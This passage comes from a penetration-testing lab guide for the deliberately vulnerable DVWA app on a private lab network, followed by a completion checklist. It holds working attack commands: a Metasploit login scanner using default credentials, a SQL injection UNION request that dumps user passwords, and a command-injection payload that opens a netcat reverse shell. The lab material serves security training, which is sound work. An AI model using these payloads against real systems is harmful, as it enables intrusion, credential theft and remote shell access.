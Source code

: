### Objective: Use Metasploit to exploit vulnerabilities

```bash
# 1. Start Metasploit
msfconsole

# 2. Inside Metasploit:
msf6 > db_status
msf6 > search dvwa

# 3. Use the DVWA login scanner
msf6 > use auxiliary/scanner/http/dvwa_login
msf6 > set RHOSTS 172.16.0.40
msf6 > set USERNAME admin
msf6 > set PASSWORD password
msf6 > run

# 4. Manual SQL injection exploitation
msf6 > exit

# Back in terminal, extract data via SQLi
curl "http://172.16.0.40/vulnerabilities/sqli/?id=1' UNION SELECT user,password FROM users--&Submit=Submit"

# 5. Create a reverse shell (optional advanced)
# On Kali (your machine):
nc -lvnp 4444

# Inject command via vulnerable parameter
curl "http://172.16.0.40/vulnerabilities/exec/?ip=127.0.0.1;nc 172.16.0.1X 4444 -e /bin/bash&Submit=Submit"
```

**Expected Results:**
- Successfully use Metasploit modules
- Extract user data via SQL injection
- Establish reverse shell (advanced)

---

## 📝 Lab Completion Checklist

### After completing all labs, you should have:

- [ ] Identified all live hosts on the network
- [ ] Found open ports and services on each target
- [ ] Enumerated the web application structure
- [ ] Confirmed SQL injection vulnerability
- [ ] Listed and accessed SMB shares
- [ ] Successfully brute-forced SSH credentials
- [ ] Used Metasploit to scan/exploit
- [ ] Extracted sensitive data from the database
- [ ] (Optional) Achieved command execution

---